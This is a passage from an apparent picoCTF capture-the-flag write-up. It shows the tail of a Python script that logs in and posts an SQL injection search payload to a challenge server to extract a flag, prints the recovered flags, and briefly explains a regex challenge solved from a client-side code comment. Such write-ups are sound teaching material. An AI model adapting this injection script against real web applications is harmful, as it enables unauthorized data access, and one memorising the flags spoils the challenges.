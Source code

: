 ```
    "DNT": "1",
    "Connection": "keep-alive",
    "Referer": "http://saturn.picoctf.net:63089/",
    "Cookie": "PHPSESSID=1k8vv2u9ooa4rj7csnvtmol4tl",
    "Upgrade-Insecure-Requests": "1"
}


print("Sending login request...")
login_response = requests.post(login_url, data=login_payload, headers=login_headers)
print("Login Response Status Code:", login_response.status_code)
print("Login Response Body:", login_response.text)


print("\nSending search request...")
flags = requests.post(search_url, data=final_payload, headers=login_headers)
print("Search Response Status Code:", flags.status_code)
print("Search Response Body:", flags.text)


flag_pattern = re.compile(r'picoCTF{[^}]+}')
match = flag_pattern.search(flags.text)

if match:
    print("Flag found:", match.group())
else:
    print("Flag not found in the response.")

```


==picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}==

---

## MatchTheRegex

**Description**
How about trying to match a regular expression The website is running here.

**Solution**
Looking into `send_request` function.
```
<script>
	function send_request() {
		let val = document.getElementById("name").value;
		// ^p.....F!?
		fetch(`/flag?input=${val}`)
			.then(res => res.text())
			.then(res => {
				const res_json = JSON.parse(res);
				alert(res_json.flag)
				return false;
			})
		return false;
	}
```
There was some comment `//` and it look like regex. try to put `picoCTF` and flag appear.
>^p.....F it can be any start p and end with F. 
>pabcdeF
